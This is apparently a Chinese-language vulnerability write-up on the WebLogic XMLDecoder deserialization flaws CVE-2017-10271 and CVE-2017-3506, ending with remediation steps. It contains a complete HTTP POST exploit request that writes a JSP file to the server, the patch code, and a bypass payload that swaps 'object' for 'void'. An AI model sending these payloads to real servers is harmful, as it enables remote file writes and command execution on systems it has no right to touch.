



## XMLDecoder 反序列化漏洞（CVE-2017-10271 & CVE-2017-3506）

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

访问 /wls-wsat/CoordinatorPortType
返回如下页面，则可能存在此漏洞。


漏洞不仅存在于 /wls-wsat/CoordinatorPortType 。
只要是在wls-wsat包中的Uri皆受到影响，可以查看web.xml得知所有受到影响的Uri，路径为：`C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\wls-wsat\54p17w\war\WEB-INF\web.xml`

默认受到影响的Uri如下：
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

构造 写入文件 数据包发送，如下，其中`Content-Type需要等于text/xml,否则可能导致XMLDecoder不解析。`
```
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 5.2; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Content-Length: 629

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java>
    	<object class="java.io.PrintWriter">  
        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test33.jsp</string>
    	<void method="println">
		<string>
    			<![CDATA[
			<% out.print("test777776666666"); %>
    			]]>
    		</string>
    	</void>
    	<void method="close"/>
    	</object>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 `/bea_wls_internal/test2.jsp`,如下：


不熟悉JAVA的小伙伴们可能会对这个构造的XML有所疑惑，可以参考下这篇[文章](https://docs.oracle.com/javase/tutorial/javabeans/advanced/longpersistence.html)。

CVE-2017-3506的补丁加了验证函数，补丁在weblogic/wsee/workarea/WorkContextXmlInputAdapter.java中添加了validate方法, 验证Payload中的节点是否存在object Tag。
```
private void validate(InputStream is){
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser =factory.newSAXParser();
         parser.parse(is, newDefaultHandler() {
            public void startElement(String uri, StringlocalName, String qName, Attributes attributes)throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch(ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXExceptionvar6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOExceptionvar7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```
我们将object换成void就可绕过此补丁，产生了CVE-2017-10271。
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java>
    	<void class="java.io.PrintWriter">
        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test33.jsp</string>
    	<void method="println">
		<string>
    			<![CDATA[
			<% out.print("test777776666666"); %>
    			]]>
    		</string>
    	</void>
    	<void method="close"/>
    	</void>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 修复建议
1）安装补丁。
2）或删除wls-wsat组件，再次访问返回404.
```
1.删除C:\Oracle\Middleware\wlserver_10.3\server\lib\wls-wsat.war

2.删除C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\.internal\wls-wsat.war

3.删除C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\wls-wsat

4.重启Weblogic
```

Note：wls-wsat.war属于一级应用包，对其进行移除或更名操作可能造成未知的后果，Oracle官方不建议对其进行此类操作。
